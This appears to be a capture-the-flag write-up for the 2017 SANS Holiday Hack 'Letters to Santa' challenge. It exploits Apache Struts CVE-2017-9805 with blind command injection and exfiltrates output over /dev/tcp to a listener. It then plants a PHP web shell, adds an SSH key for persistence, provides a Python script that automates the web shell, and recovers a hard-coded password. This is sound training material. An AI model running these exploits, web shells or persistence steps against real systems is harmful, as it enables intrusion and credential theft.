 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and CVE-2017-9805 Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
    <!-- Development version -->
    <a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC sh
nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

There appears to be another name on the certificate of the host. Let's let nmap's scripts scan that as well.

#+BEGIN_SRC sh
nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one in the same. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC sh
print request.text
#+END_SRC

Performing the same simple command above results in a lengthy Apache Tomcat
error with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the output
of the command. One trick we can pull is redirecting output to a special
pseudo device, =/dev/tcp/$host/$port=. First we'll need to set up a listener
on our end first.

#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC sh
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/1234"
#+END_SRC

The result on our end is:
#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/ww/html=.

#+BEGIN_SRC sh
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question. Now on to the second.

It looks like we found our web root. Let's try out the
web shell they suggest in the hints from Josh Wright
[[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
We'll output it to a random file in the web root then
we can try to use it to execute commands using a browser.

#+BEGIN_SRC sh
./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php" -u https://dev.northpolechristmastown.com/orders.xhtml
#+END_SRC

Now we can access [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]] and look around. If we do an =ls= in this webshell, it just returns the local directory, =/var/www/html=. Nothing in here suggests that we have the webroot for the dev server, [[https://dev.northpolechristmastown.com]].

Let's run =find= to see if we can find the password in our webshell.

#+BEGIN_SRC sh
find / -xdev -type f -user alabaster_snowball 2>/dev/null |xargs grep password
#+END_SRC

Within the page full of results we see this:

#+BEGIN_SRC sh
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String password = "stream_unhappy_buy_loss";
#+END_SRC

A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

#+BEGIN_SRC sh
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";
#+END_SRC


** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

On the Topic of Flying Animals

*** What is Alabaster Snowball’s password?

=stream_unhappy_buy_loss=

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually add an ssh key to alabaster's authorized keys file. This is problematic since you need to know that the username is actually =alabaster_snowball= first. Assuming you do, you can run the following command to add your key to the file.

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys"
#+END_SRC

Then you can ssh using your private key identity file.

#+BEGIN_SRC sh
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to grep for alabaster's password but a regular grep against the entire system will take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in the same directory we can create a script to automate expoloitation and give us a prompt to execute commands.

#+BEGIN_SRC sh
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to =cve_2017_9805.py= or create a symlink so it can be properly imported into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC sh
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

Ripgrep is a super fast grep replacement written in rust. It does a better job at filtering binary files, so we can run this command that finishes in about a second:

The following steps create a folder for ripgrep and executes the search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

Initially the host has a couple of noticeable holes.

  * Apache server running as alabaster (eventually changed to www-data user)
  * Easy bypass of rbash by adding the '-t' flag and executing bash on ssh login (eventually rbash was forced through sshd_config)

The server itself housed two virtual web hosts, the Letter's to Santa application which ran PHP in nginx and the Development site which was run by apache struts on a high port being redirected by nginx.

